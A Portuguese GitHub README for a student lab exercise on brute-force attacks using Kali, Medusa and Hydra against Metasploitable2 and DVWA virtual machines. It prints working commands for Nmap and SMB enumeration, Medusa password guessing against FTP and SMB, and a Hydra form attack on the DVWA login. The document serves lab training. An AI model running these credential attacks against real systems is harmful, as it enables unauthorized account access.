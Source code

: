 
# Desafio: Ataques de Força Bruta com Medusa (Kali + Metasploitable2/DVWA)

## Resumo
Projeto prático para demonstrar ataques de força bruta em ambiente controlado usando Kali Linux e Medusa, com alvo Metasploitable2 e DVWA. Objetivo: aprender enumeração, execução de ataques e propor medidas de mitigação.

> **Atenção:** todos os testes foram executados apenas em VMs de laboratório (Kali e Metasploitable). Não execute testes em sistemas sem autorização.

## Ambiente
- Hypervisor: VirtualBox  
- Kali Linux — IP: **192.168.1.2**  
- Metasploitable2 (alvo) — IP: **192.168.1.16**  
- Rede: Host-only / Internal Network

## Ferramentas utilizadas
- Kali Linux  
- Medusa  
- Nmap  
- smbclient, enum4linux  
- Hydra (opcional, para formulários HTTP)  
- ssh/sshfs

## Wordlists (exemplos)
- `wordlists/simples_usernames.txt`  
- `wordlists/simples_passwords.txt`  

*(Use wordlists maiores como `rockyou.txt` somente em laboratório.)*

## Comandos principais (exemplos)
### Enumeração
```bash
sudo nmap -sS -sV -p21,22,80,139,445,3306 192.168.1.16 -oN nmap_common.txt
smbclient -L //192.168.1.16 -N
enum4linux -a 192.168.1.16 > enum4linux.txt


medusa -h 192.168.1.16 -u msfadmin -P wordlists/simples_passwords.txt -M ftp -t 4 -f -O results/medusa_ftp.txt


medusa -h 192.168.1.16 -U wordlists/simples_usernames.txt -P wordlists/simples_passwords.txt -M smb -t 8 -f -O results/medusa_smb.txt


hydra -l admin -P wordlists/simples_passwords.txt 192.168.1.16 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=incorrect"



## Evidências

### 1) Resultado do Nmap
![Nmap scan](imagem1.PNG)
*Figura 1 — Resultado do Nmap mostrando portas abertas.*

### 2) Medusa – FTP
![Medusa FTP](imagem2.PNG)
*Figura 2 — Medusa encontrou credenciais válidas para FTP.*

### 3) DVWA – Login
![DVWA login](imagem3.PNG)
*Figura 3 — Tela de login do DVWA usada para testes.*

### 4) Teste
![Teste](imagem4.PNG)
*Figura 4 — Descrição do teste.*

### 5) Outra captura
![Capture 5](imagem5.PNG)
*Figura 5 — Outra captura.*


